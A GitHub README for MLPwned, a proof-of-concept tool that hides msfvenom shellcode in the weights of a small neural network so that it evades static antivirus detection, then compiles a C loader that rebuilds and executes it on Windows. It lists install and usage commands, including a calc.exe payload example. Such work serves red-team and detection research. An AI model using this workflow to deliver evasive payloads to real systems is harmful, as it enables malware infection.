


# MLPwned

Using neural networks for malicious code obfuscation and delivery.

MLPwned is a proof-of-concept tool that uses a small, overfitted neural network (specifically a multi-layer perceptron) to store and reconstruct arbitrary shellcode at runtime. By embedding the shellcode bytes into the model’s learned weights, the script makes static analysis significantly more difficult. This is because traditional antivirus or forensic tools won’t directly detect malicious byte sequences in the binary. The final output is a self-contained C file that includes both the trained model parameters and logic needed to rebuild and execute the shellcode on demand, all without requiring a GPU. This approach is inspired by implicit neural representations, highlighting how neural networks can be used in unconventional ways to obfuscate and deliver malicious payloads.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [License](#license)

## Installation

### 1. Install Metasploit

Download and install Metasploit using the following commands:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall
```

### 2. Install Python Packages

```bash
pip install -r requirements.txt
```

### 3. Install MinGW-w64

```bash
sudo apt update
sudo apt install mingw-w64
```

## Usage

### 1. Generate Shellcode with msfvenom

```bash
msfvenom -a x64 --platform Windows -p windows/x64/exec CMD=calc.exe -f python
```


### 2. Embed the Shellcode into MLPwned.py
Copy and paste the Python-formatted shellcode into MLPwned.py under the comment:
```bash
# Add msfvenom shellcode below
```

### 3. Run the Python Script

```bash
python MLPwned.py
```



### 4. Compile MLPwned.c to a Windows Executable

```bash
x86_64-w64-mingw32-gcc -o MLPwned.exe MLPwned.c
```